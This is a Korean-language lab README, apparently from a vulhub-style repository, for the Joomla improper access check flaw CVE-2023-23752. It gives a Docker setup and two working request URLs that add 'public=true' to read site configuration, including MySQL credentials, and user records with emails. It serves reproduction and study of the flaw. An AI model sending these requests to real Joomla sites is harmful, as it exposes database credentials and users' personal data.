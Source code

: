 # Joomla 웹서비스 엔드포인트부적절한 접근 제어(CVE-2023-23752)

## 리포

[https://github.com/4lph4-dvlp/kr-vulhub](https://github.com/4lph4-dvlp/kr-vulhub)

(add Joomla/CVE-2023-23752)

## 개요

Joomla는 사용자가 웹사이트 및 온라인 애플리케이션을 구축할 수 있도록 지원하는 무료 오픈소스 콘텐츠 관리 시스템(CMS)이다. 2005년에 처음 출시되었으며, 현재 전 세계 수백만 개의 웹사이트를 지원하는 가장 인기 있는 CMS 플랫폼 중 하나이다.

Joomla! 4.0.0부터 4.2.7 버전까지, 웹서비스 엔드포인트에 대한 부적절한 접근 검사로 인해 인증되지 않은 접근이 가능한 취약점이 발견되었다.

## 참고 자료

- [Joomla 공식 보안 공지](https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html)
- [취약점 분석 - Aliyun XZ](https://xz.aliyun.com/t/12175)
- [취약점 분석 - VulnCheck](https://vulncheck.com/blog/joomla-for-rce)

## 취약한 환경 구성 방법

Joomla 4.2.7 사이트를 실행하려면 다음 명령어를 사용한다.

```bash
docker compose up -d
```

![image.png](0.png)

서버가 시작된 후, [http://localhost:8080](http://localhost:8080/) 에서 Joomla 웹사이트에 접속할 수 있다.

![image.png](1.png)

## 취약점 설명 및 공격 방법

이 취약점은 속성(attribute) 덮어쓰기 문제로 인해 발생한다. 공격자는 `public=true` 파라미터를 사용하여 인증 검사를 우회할 수 있다.

예를 들어, 아래 링크를 통해 MySQL 사용자 이름 및 비밀번호를 포함한 모든 설정 정보를 노출시킬 수 있다:

```bash
http://localhost:8080/api/index.php/v1/config/application?public=true
```

![image.png](2.png)

- `public=true` 없이 접근할 경우, 접근이 허용되지 않는다.

또한, 모든 사용자 정보(이메일 포함)를 다음 링크를 통해 노출시킬 수 있다:

```bash
http://localhost:8080/api/index.php/v1/users?public=true
```

![image.png](3.png)
